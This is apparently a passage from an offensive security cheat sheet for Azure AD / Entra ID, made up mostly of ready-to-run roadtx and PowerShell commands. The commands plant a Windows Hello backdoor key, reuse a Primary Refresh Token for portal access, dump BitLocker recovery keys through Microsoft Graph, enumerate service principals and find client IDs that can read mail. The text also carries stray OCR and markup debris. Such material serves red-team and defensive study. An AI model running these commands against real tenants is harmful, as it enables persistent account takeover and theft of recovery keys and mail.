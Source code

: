 ### Windows Hello for Business

```ps1
roadtx.exe prtenrich --ngcmfa-drs-auth
roadtx.exe winhello -k swkdevicebackdoor.key
roadtx.exe prt -hk swkdevicebackdoor.key -u <user@domain.lab> -c swkdeviceup.pem -k swkdeviceup.key
roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
```

### Bitlocker Keys

```ps1
Install-Module Microsoft.Graph -Scope CurrentUser
Import-Module Microsoft.Graph.Identity.SignIns
Connect-MgGraph -Scopes BitLockerKey.Read.All
Get-MgInformationProtectionBitlockerRecoveryKey -All
Get-MgInformationProtectionBitlockerRecoveryKey -BitlockerRecoveryKeyId $bitlockerRecoveryKeyId
```

## Service Principals

```ps1
PS C:\> Get-AzureADServicePrincipal

ObjectId                             AppId                                DisplayName
--------                             -----                                -----------
00221b6f-4387-4f3f-aa85-34316ad7f956 e5e29b8a-85d9-41ea-b8d1-2162bd004528 Tenant Schema Extension App
012f6450-15be-4e45-b8b4-e630f0fb70fe 00000005-0000-0ff1-ce00-000000000000 Microsoft.YammerEnterprise
06ab01eb-3e77-4d14-ae31-322c7730a65b 09abbdfd-ed23-44ee-a2d9-a627aa1c90f3 ProjectWorkManagement
092aaf41-23e8-46eb-8c3d-fc0ee91cc62f 507bc9da-c4e2-40cb-96a7-ac90df92685c Office365Reports
0ac66e69-5502-4406-a294-6dedeadc8cab 2cf9eb86-36b5-49dc-86ae-9a63135dfa8c AzureTrafficManagerandDNS
0c0a6d9d-48c0-4aa7-b484-4e46f77d8ed9 0f698dd4-f011-4d23-a33e-b36416dcb1e6 Microsoft.OfficeClientService
0cbef08e-a4b5-4dd9-865e-8f521c1c5fb4 0469d4cd-df37-4d93-8a61-f8c75b809164 Microsoft Policy Administration Service
0ea80ff0-a9ea-43b6-b876-d5989efd8228 00000009-0000-0000-c000-000000000000 Microsoft Power BI Reporting and Analytics</dev:code>
```

## Other

Lists all the client IDs you can use to get a token with the `mail.read` scope on the Microsoft Graph:

```ps1
roadtx getscope -s https://graph.microsoft.com/mail.read
roadtx findscope -s https://graph.microsoft.com/mail.read
```

## References
